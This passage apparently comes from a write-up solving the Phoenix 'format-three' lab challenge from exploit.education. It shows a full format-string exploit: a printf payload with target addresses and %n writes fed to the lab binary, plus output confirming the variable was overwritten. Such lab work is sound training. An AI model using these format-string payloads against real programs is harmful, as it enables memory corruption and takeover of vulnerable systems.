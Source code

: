trits   0t1011
{% endhighlight %}

{% highlight shell %}
$ echo $(printf "\x44\x98\x04\x08AAAA\x45\x98\x04\x08AAAA\x46\x98\x04\x08AAAA\x47\x98\x04\x08")%x%x%x%x%x%x%x%x%x%x%244x%n%51x%n%4045x%n%31x%n > pattern
{% endhighlight %}

{% highlight shell %}
$ /opt/phoenix/i486/format-three < pattern 
Welcome to phoenix/format-three, brought to you by https://exploit.education
DAAAAEAAAAFAAAAG000f7f72cf7f7fec000ffcbc5688048556ffcbb560ffcbb560fff
Well done, the 'changeme' variable has been changed correctly!
{% endhighlight %}